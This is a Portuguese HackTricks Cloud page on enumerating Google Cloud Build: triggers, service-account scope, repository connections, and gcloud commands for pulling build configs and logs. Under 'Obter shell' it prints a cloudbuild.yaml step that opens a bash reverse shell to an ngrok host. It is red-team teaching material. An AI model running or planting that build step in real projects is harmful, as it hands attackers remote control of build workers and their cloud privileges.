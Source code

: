 # GCP - Enumeração do Cloud Build

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para** os repositórios [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

O Google Cloud Build é uma plataforma CI/CD gerenciada que **automatiza a construção de software** e os processos de lançamento, integrando-se com **repositórios de código-fonte** e suportando uma ampla gama de linguagens de programação. Ele **permite que os desenvolvedores construam, testem e implantem código automaticamente** enquanto oferece flexibilidade para personalizar etapas de construção e fluxos de trabalho.

Cada Desencadeador do Cloud Build está **relacionado a um Repositório do Cloud ou conectado diretamente a um repositório externo** (Github, Bitbucket e Gitlab).

{% hint style="success" %}
Não consegui ver nenhuma maneira de roubar o token do Github/Bitbucket daqui ou dos Repositórios do Cloud porque quando o repositório é baixado, ele é acessado por meio de uma URL [https://source.cloud.google.com/](https://source.cloud.google.com/) e o Github não é acessado pelo cliente.
{% endhint %}

### Eventos

O Cloud Build pode ser acionado se:

* **Push para um branch**: Especifique o branch
* **Push de uma nova tag**: Especifique a tag
* **Pull request**: Especifique o branch que recebe o PR
* **Invocação manual**
* **Mensagem Pub/Sub**: Especifique o tópico
* **Evento de Webhook**: Irá expor uma URL HTTPS e a solicitação deve ser autenticada com um segredo

### Execução

Existem 3 opções:

* Um yaml/json **especificando os comandos** a serem executados. Geralmente: `/cloudbuild.yaml`
* Apenas um que pode ser especificado "inline" no console da web e no cli
* Opção mais comum
* Relevante para acesso não autenticado
* Um **Dockerfile** para construir
* Um **Buildpack** para construir

### Permissões do SA

A **Conta de Serviço tem o escopo `cloud-platform`**, então ela pode **usar todos os privilégios.** Se **nenhum SA for especificado** (como ao fazer submit), o **SA padrão** `<proj-number>@cloudbuild.gserviceaccount.com` será **usado.**

Por padrão, nenhuma permissão é concedida, mas é bastante fácil conceder algumas:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Aprovações

É possível configurar um Cloud Build para **exigir aprovações para execuções de construção** (desativado por padrão).

### Conexões e Repositórios

Conexões podem ser criadas em:

* **GitHub:** Ele mostrará um prompt de OAuth pedindo permissões para **obter um token do Github** que será armazenado no **Secret Manager.**
* **GitHub Enterprise:** Ele pedirá para instalar um **GithubApp**. Um **token de autenticação** do seu host do GitHub Enterprise será criado e armazenado neste projeto como um segredo do **Secret Manager.**
* **GitLab / Enterprise:** Você precisa **fornecer o token de acesso à API e o token de acesso à API de Leitura** que serão armazenados no **Secret Manager.**

Uma vez que uma conexão é gerada, você pode usá-la para **vincular repositórios aos quais a conta do Github tem acesso**.

Esta opção está disponível através do botão:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Observe que os repositórios conectados com este método estão **disponíveis apenas em Triggers usando a 2ª geração.**
{% endhint %}

### Conectar um Repositório

Isso não é o mesmo que uma **`conexão`**. Isso permite **diferentes** maneiras de obter **acesso a um repositório do Github ou Bitbucket** mas **não gera um objeto de conexão, mas gera um objeto de repositório (da 1ª geração).**

Esta opção está disponível através do botão:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Armazenamento

Às vezes, o Cloud Build irá **gerar um novo armazenamento para armazenar os arquivos para o desencadeador**. Isso acontece, por exemplo, no exemplo que o GCP oferece com:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Um bucket de armazenamento chamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) é criado para armazenar um arquivo `.tgz` com os arquivos a serem usados.

### Obter shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeração

Você pode encontrar **informações sensíveis em configurações de build e logs**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalação de Privilégios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acesso não autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Pós-Exploração

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
